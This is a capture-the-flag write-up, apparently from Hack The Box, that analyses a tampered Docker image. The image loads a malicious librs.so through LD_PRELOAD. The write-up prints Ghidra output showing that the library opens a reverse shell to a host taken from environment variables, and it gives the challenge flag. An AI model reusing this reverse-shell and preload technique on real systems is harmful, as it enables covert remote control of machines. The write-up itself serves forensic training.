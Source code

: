 # peel back the layers

> An unknown maintainer managed to push an update to one of our public docker images. Our SOC team reported suspicious traffic coming from some of our steam factories ever since. The update got retracted making us unable to investigate further. We are concerned that this might refer to a supply-chain attack. Could you investigate?
Docker Image: steammaintainer/gearrepairimage 

Pull and save the docker image:

```
docker pull steammaintainer/gearrepairimage 
docker save -o gearrepairimage.tar steammaintainer/gearrepairimage 
```

extracting the tar archive then investigating (using jq)

```
jq < 47f41629f1cfcaf8890339a7ffdf6414c0c1417cfa75481831c8710196627d5d.json 

```

```json
    {
      "created": "2021-11-12T21:40:23.425193373Z",
      "created_by": "/bin/sh -c #(nop) COPY file:0b1afae23b8f468ed1b0570b72d4855f0a24f2a63388c5c077938dbfdeda945c in /usr/share/lib/librs.so "
    },
    {
      "created": "2021-11-12T21:40:23.607982534Z",
      "created_by": "/bin/sh -c #(nop)  ENV LD_PRELOAD=/usr/share/lib/librs.so",
      "empty_layer": true
    },

```

`find . |rg json|parallel "jq < {}" > jq.all.txt`

suss layer:
86395ded17f0743232e41949150bbd0cdafef25accf0fef2dbe9469f338a6a28/

```
/usr/share/lib:
-rwxr-xr-x 1 h4sh h4sh 17K Nov 13 07:38 librs.so
-rwxr-xr-x 1 h4sh h4sh   0 Jan  1  1970 .wh..wh..opq
```


### reversing librs.so

(update: running `strings` on it also works for getting flag)

in ghidra:

con function (at 101195)


```c
/* DISPLAY WARNING: Type casts are NOT being printed */
undefined8 con(void)

{
  int iVar1;
  char *__nptr;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined local_40;
  undefined local_38 [4];
  in_addr_t local_34;
  int local_20;
  uint16_t local_1a;
  char *local_18;
  __pid_t local_c;
  
  local_c = fork();
  if (local_c == 0) {
    local_18 = getenv("REMOTE_ADDR");
    __nptr = getenv("REMOTE_PORT");
    iVar1 = atoi(__nptr);
    local_1a = iVar1;
    local_68 = 0x33725f317b425448;
    local_60 = 0x6b316c5f796c6c34;
    local_58 = 0x706d343374735f33;
    local_50 = 0x306230725f6b6e75;
    local_48 = 0xd0a7d2121217374;
    local_40 = 0;
    local_38._0_2_ = 2;
    local_34 = inet_addr(local_18);
    local_38._2_2_ = htons(local_1a);
    local_20 = socket(2,1,0);
    connect(local_20,local_38,0x10);
    write(local_20,&local_68,0x29);
    dup2(local_20,0);
    dup2(local_20,1);
    dup2(local_20,2);
    execve("/bin/sh",0x0,0x0);
  }
  return 0;
}
```


flag in the raw data:
```
      001011d7 48 b8 48      MOV       RAX,"3r_1{BTH"
               54 42 7b 
               31 5f 72
      001011e1 48 ba 34      MOV       RDX,"k1l_yll4"
               6c 6c 79 
               5f 6c 31
      001011eb 48 89 45      MOV       qword ptr [RBP + local_68],RAX
               a0
      001011ef 48 89 55      MOV       qword ptr [RBP + local_60],RDX
               a8
      001011f3 48 b8 33      MOV       RAX,"pm43ts_3"
               5f 73 74 
               33 34 6d
      001011fd 48 ba 75      MOV       RDX,"0b0r_knu"
               6e 6b 5f 
               72 30 62
```

```
(little endian)
3r_1{BTH
k1l_yll4
pm43ts_3
0b0r_knu
}!!!st
```


HTB{1_r34lly_l1k3_st34mpunk_r0b0ts!!!}
